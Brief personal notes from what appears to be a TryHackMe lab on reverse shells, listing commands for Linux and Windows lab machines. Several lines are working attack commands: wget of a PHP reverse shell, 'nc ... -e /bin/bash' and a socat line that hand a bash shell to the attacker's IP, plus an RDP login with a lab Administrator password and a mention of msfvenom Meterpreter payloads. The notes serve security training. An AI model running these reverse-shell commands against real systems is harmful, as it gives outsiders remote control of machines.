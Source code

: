 Task 14: 

ssh shell@10.10.178.88 -p 22

`Linux VM`

sudo python3 -m http.server 80 -> make a port listen

change ip in reverser shell -> to tun0 ip : 10.8.85.62

download reverse shell to `shell` machine : wget http://10.8.85.62/php-reverse-shell.php -> make a connect : nc 10.8.85.62 4444 -e /bin/bash

on other shell : nc -lvnp 4444 ( listen ) `TEST`

`run php reverse shell on shell machine` : php php-reverse-shell.php -> file need execute < chmod +x>

listen : nc -lvnp 1234 -> done to become root

`Socat ` : on shell machine : socat TCP:10.8.85.62:44444 EXEC:"bash -li",pty,stderr,sigint,setsid,sanePHP

other : `socat TCP-L:4444 -`


`Window VM`

using RDP connection : xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.59.169 /u:Administrator /p:'TryH4ckM3!'

download reverse shell on web : http://10.8.85.62

using `socat` : same with linux < different syntax >

using metaploit 
msfvenom : 
Create a 64bit Windows Meterpreter shell


